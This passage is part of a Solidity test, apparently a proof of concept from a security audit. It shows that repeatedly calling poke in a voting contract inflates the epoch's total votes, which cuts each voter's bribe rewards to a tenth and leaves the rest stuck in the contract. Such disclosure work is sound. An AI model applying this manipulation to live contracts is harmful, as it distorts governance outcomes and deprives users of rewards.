 ```solidity
        (, uint256 epochTotalVotes) = Bribe(bribeAddress).votingCheckpoints(IBribe(bribeAddress).getPriorVotingIndex(period + 2 weeks));
        uint256 aliceTokenIdBalance = Bribe(bribeAddress).balanceOf(aliceTokenId);
        uint256 bobTokenIdBalance = Bribe(bribeAddress).balanceOf(bobTokenId);
        assertEq(aliceTokenIdBalance, bobTokenIdBalance);
        assertEq(epochTotalVotes, aliceTokenIdBalance + bobTokenIdBalance);

        // Alice inflate the total voting amount of the current epoch by callling poke multiple times (8)
        for (uint i = 0; i < 8; i++) {
            hevm.prank(alice);
            voter.poke(aliceTokenId);
        }

        // Check the total votes of current epoch after inflation
        // This proof that a manipulation of voting result have been done for the votes outcome
        (, epochTotalVotes) = Bribe(bribeAddress).votingCheckpoints(IBribe(bribeAddress).getPriorVotingIndex(period + 2 weeks));
        aliceTokenIdBalance = Bribe(bribeAddress).balanceOf(aliceTokenId);
        bobTokenIdBalance = Bribe(bribeAddress).balanceOf(bobTokenId);
        assertEq(aliceTokenIdBalance, bobTokenIdBalance);
        assertEq(epochTotalVotes, aliceTokenIdBalance + bobTokenIdBalance + (aliceTokenIdBalance * 8)); // 8 is number of pokes 
        
        // Next epoch started
        hevm.warp(period + 2 weeks + 1 );
        voter.distribute();

        // Bob and Alice only rewarded tenth of the reward while he should rewarded half of the reward
        assertEq(IBribe(bribeAddress).earned(bal, bobTokenId), rewardAmount/10);
        assertEq(IBribe(bribeAddress).earned(bal, aliceTokenId), rewardAmount/10);

        // Thus he will stop voting for this pool


        // Even if Alice and Bob maintain the same voting status for current epoch,
        // They will not be rewarded for the lost reward from previous epoch 
        hevm.prank(alice);
        voter.poke(aliceTokenId);
        hevm.prank(bob);
        voter.poke(bobTokenId);

        // Next epoch started
        hevm.warp(period + 4 weeks + 1);
        // Rewards remain the same, tenth of the reward of the first priod
        assertEq(IBribe(bribeAddress).earned(bal, bobTokenId), rewardAmount/10);
        assertEq(IBribe(bribeAddress).earned(bal, aliceTokenId), rewardAmount/10);
        

        hevm.prank(alice);
        voter.claimBribes(bribes, tokens, aliceTokenId);
        hevm.prank(bob);
        voter.claimBribes(bribes, tokens, bobTokenId);

        // Check that bribe has a freezing amount from first epoch
        // total reward of epoch 1 - ckaimed rewards earned for alice and bob
        // assertGt(
        //     Bribe(bribeAddress).tokenRewardsPerEpoch(bal, period) 
        //     - (IERC20(bal).balanceOf(alice) + IERC20(bal).balanceOf(bob))
        //     , 0
        // );
        assertGt(IERC20(bal).balanceOf(bribeAddress), 0);
```